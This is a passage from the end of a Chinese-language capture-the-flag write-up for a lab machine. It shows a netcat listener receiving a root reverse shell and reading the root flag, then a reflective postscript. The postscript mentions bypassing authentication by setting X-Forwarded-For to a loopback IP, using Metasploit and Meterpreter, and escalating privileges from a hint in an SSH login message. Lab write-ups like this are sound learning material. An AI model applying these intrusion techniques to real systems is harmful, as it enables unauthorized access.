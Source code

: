 
## flag: root

```bash
└─$ nc -lvnp 4445 
listening on [any] 4445 ...
connect to [10.xx .xx.xx] from (UNKNOWN) [10.10.11.211] 56864

bash-5.1# id
id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
bash-5.1# cd /root
cd /root
bash-5.1# ls
ls
cacti
root.txt
bash-5.1# cat root.txt
cat root.txt
dfbf…………52af
```

---

## 总结·后记

2023/05/15

虽然也有卡住的地方，但是总体来说确实不难。  
初始访问很容易就能顺着web服务的版本号去找exp，不过还是感受到了自己这个脚本小子的水平，拿着exp就想直接用，没太考虑了解漏洞原理。不过自己确实web方面较弱，代码的阅读量也少，感觉看CVE文章啃很久都不一定反应过来原来是用X-Forwarded-For等于环回IP去绕过验证。

一开始在kali搜漏洞的时候没搜出来觉得很奇怪，才想起来应该是有个数据库之类的需要更新？于是也顺便更新了ExploitDB和metasplit：

- `searchsploit -u`
- `apt update; apt install metasploit-framework`

然后就是docker容器，最初进去的时候想看IP发现没有安装`ifconfig`命令，然后搜了些替代命令如`ip a`也没有。直接开摆，要不是偶然连上Meterpreter跑了下`sysinfo`，也不知道自己会过多久才发现身处容器中……  
以及一直都是走一步想一步，由于没有好好地探索信息而被骗进兔子洞，白白在docker里拿了没用的root权限。

最后一个提权的利用实际上不难。感觉所有难点都在如何发现那条提示……SSH登陆后的信息，一直以来都是无视的啊……这台机器的创作者简直就是利用了人的这个习惯（笑）。以及如官方论坛有人说的那样，“What happens in Vegas does not always stay in Vegas”，有点意思。

总的来说，信息收集要仔细！